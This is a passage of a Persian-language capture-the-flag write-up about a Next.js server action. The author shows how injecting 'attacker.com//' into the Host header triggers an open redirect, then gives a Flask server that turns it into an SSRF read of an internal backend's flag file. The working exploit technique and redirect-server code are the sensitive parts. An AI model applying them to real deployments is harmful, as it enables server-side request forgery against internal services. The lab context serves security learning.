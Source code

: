 ```ts
          .safeParse(credentials);

        if (parsedCredentials.success) {
          const { username, password } = parsedCredentials.data;
          // Using a one-time password is more secure
          if (username === "admin" && password === randomBytes(16).toString("hex")) {
            return {
              username: "admin",
            } as User;
          }
        }
        throw new CredentialsSignin;
      },
    }),
  ]
});
```

راهی برای اینکه توی این فانکشن signIn اروری بخوریم که از نوع AuthError نباشه نیست

البته من تلاش کردم که از لایبری zod ارور ZODError بگیرم ولی چون از متد safeParse به جای parse استفاده شده بود. راهی برای این کار هم نبود

بعد از کلی تلاش که راهی برای ریدایرکت کردن پیدا کنم ، به طور اتفاقی موقعی که ریکویست POST به این ACTION میزدم ، اومدم هدر Host رو به `https://attacker.com` تغییر دادم و متوجه شدم که سمت  next.js به ارور  UnknownAction خورد و از اونجایی که اون redirect داخل بلاک finally بود . در هر صورت اجرا میشد
و اینطوری بود که تونستم ریدایرکت بگیرم ولی به کجا؟
به `https`!!

اونجا بود که فهمیدم مقدار هدر هاست رو دارم اشتباهی میدم  و اون پروتکلشو حذف کردم و `attacker.com` رو تست کردم ولی متاسفانه دیگه به اون ریدایرکت نرسیدم ولی یه سعی دیگه کردم و `//` رو به اخر هدر هاست اضافه کردم و دیدم که بعله به ‍`attacker.com` ریدایرکت شدم


# خوندن فلگ
برای اینکه بتونم فلگ رو بخونم باید به وب سرور خودم ریدارکت میکردم و از اون جا به `http://backend/flag.txt` که backend به ip داکر سرویس backend مپ میشه ریدایرکت میکردم مسیر رو

وب سرور فلسک

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

app.run(host="0.0.0.0", port=4000)
```
